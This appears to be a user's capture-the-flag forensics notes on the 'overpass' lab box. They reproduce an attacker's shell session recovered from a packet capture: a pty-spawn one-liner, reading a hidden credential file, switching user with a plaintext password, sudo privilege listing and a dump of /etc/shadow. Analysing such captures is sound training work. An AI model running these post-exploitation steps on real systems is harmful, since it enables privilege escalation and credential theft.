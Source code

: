 # for 2nd what I did was to click file>export HTTP (object list)>download the upload.php

# to find the password I went to the GET request for payload.php and then followed the TCP stream (3)
        # found this:
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@overpass-production:/var/www/html/development/uploads$ ls -lAh
ls -lAh
total 8.0K
-rw-r--r-- 1 www-data www-data 51 Jul 21 17:48 .overpass
-rw-r--r-- 1 www-data www-data 99 Jul 21 20:34 payload.php
www-data@overpass-production:/var/www/html/development/uploads$ cat .overpass
cat .overpass
,LQ?2>6QiQ$JDE6>Q[QA2DDQiQH96?6G6C?@E62CE:?DE2?EQN.www-data@overpass-production:/var/www/html/development/uploads$ su james
su james
Password: whenevernoteartinstant

james@overpass-production:/var/www/html/development/uploads$ cd ~
cd ~
james@overpass-production:~$ sudo -l]
sudo -l]
sudo: invalid option -- ']'
usage: sudo -h | -K | -k | -V
usage: sudo -v [-AknS] [-g group] [-h host] [-p prompt] [-u user]
usage: sudo -l [-AknS] [-g group] [-h host] [-p prompt] [-U user] [-u user]
            [command]
usage: sudo [-AbEHknPS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p
            prompt] [-T timeout] [-u user] [VAR=value] [-i|-s] [<command>]
usage: sudo -e [-AknS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p
            prompt] [-T timeout] [-u user] file ...
james@overpass-production:~$ sudo -l
sudo -l
[sudo] password for james: whenevernoteartinstant

Matching Defaults entries for james on overpass-production:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on overpass-production:
    (ALL : ALL) ALL
james@overpass-production:~$ sudo cat /etc/shadow
sudo cat /etc/shadow
root:*:18295:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
mail:*:18295:0:99999:7:::
news:*:18295:0:99999:7:::
uucp:*:18295:0:99999:7:::
proxy:*:18295:0:99999:7:::
www-data:*:18295:0:99999:7:::
backup:*:18295:0:99999:7:::